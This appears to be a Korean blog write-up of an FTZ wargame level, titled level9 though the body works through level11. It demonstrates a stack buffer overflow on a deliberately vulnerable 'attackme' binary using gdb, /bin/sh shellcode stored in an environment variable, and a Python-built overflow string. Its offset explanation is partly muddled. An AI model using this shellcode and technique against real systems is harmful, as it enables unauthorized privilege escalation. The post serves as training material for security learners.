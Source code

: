 ```yaml
---
layout: post
title:  "FTZ level9"
date:   2020-09-04 11:10
categories: blog
---
```


FTZ level9를 풀어보겠다.

![cat](../../blog_img/ftz11_cat.png)

```shell
[level11@ftz level11]$cat hint
```
##### cat [OPTION] [FILE]
##### cat - 파일 이름으로 인자받아 이어주는 명령어

먼저 해당 c언어가 컴파일된것이 attackme 파일인걸로 추정한다 

![run](../../blog_img/level11_run.png)

attackme 파일을 실행하면은 hint에 있는 c 언어로 작성된 코드와 똑같이 작동합니다.

그러면은 이제 attackme 를 분석하기위해 gdb 명령어를 사용하여 디버깅을 해봐야겠다.

```shell
$gdb attackme

(gdb) set disas intel
(gdb) disas main
```

![gdb](../../blog_img/ftz_level11_gdb.png)

<main+3>: sub   esp,0x108
이라는것이 보이는데 0x108 은 C 언어 코드에서 char str[256]; 이나 마찬가지다 
즉 256 만큼 배열되는것에서 +8 쓰레기 값이 붙어서 264 만큼의 값이 있는것이고

BOF(버퍼오버플로우)를 하게된다면 자주 접하는게 ret sfp 가 있다 여기에서 제일 중요한것은 sfp(스텍 베이스) 값을 뜻한다.
sfp 는 스택 주소값을 계산할깨 스택값 바닥 프레임 포인터 값을 저장하는것이라고 하는데 이 크기는 4바이트이므로 

bof 를 내기위해서는 108 + sfp 크기 인 268 만큼의 입력을 한 다음 쉘코드를 실행하면 된다.

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80
```

해당 쉘 코드로 환경변수를 이용하여 bof 를 해야된다.

먼저 linux 에서 환경 변수 등록 명령어는 export 이다.

```shell
export EGG=`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'` 
```

와 같이 입력을 한 다음 해당 환경변수를 불러오기 위해 c언어로 해당 변수를 불러오는 주소를 알아오자

```
#include <stdio.h>
int main(){
    printf("print : %x\n",getenv("EGG"));
    return 0;
}
```
이런식으로 getenv 함수를 이용해서 주소값을 출력하면은 

![buff](../../blog_img/buffx.png)

이렇게 주소값이 16진수로 나오게 된다.

*해당 주소값은 사람마다 다 다를수있으니 따라서 하면 안된다. 

그러면은 이 다양한 기능들을 이용해서 bof 를 수행하기 위해 python -c 를 넘기는 경우가 많다

어떠한 파일이 test 가 있다고 한다면

./test `python -c 'print "hello"'`
- test 파일에서 인자로 넘긴다.

(python -c 'print "hello"';cat) | ./test
- test 파일에서 실행중 중간에 입력이 된다.

우리가 해야될것은 1번째인 인자로 넘겨야된다.

이제 attackme 파일에서 argv[1] 로 strcpy 를 사용하기떄문에

명령어를 입력하여 하고싶다면은 

```shell
./attackme `python -c 'print "A"*268+"\x22\xfc\xff\xbf"'`
```

16진수로 나온 환경 변수 주소값을 거꿀로 해서 입력해야된다.

입력하고 my-pass 를 해야된다.

![my-pass](../../blog_img/level12.my_pass.png)

password:it is like this

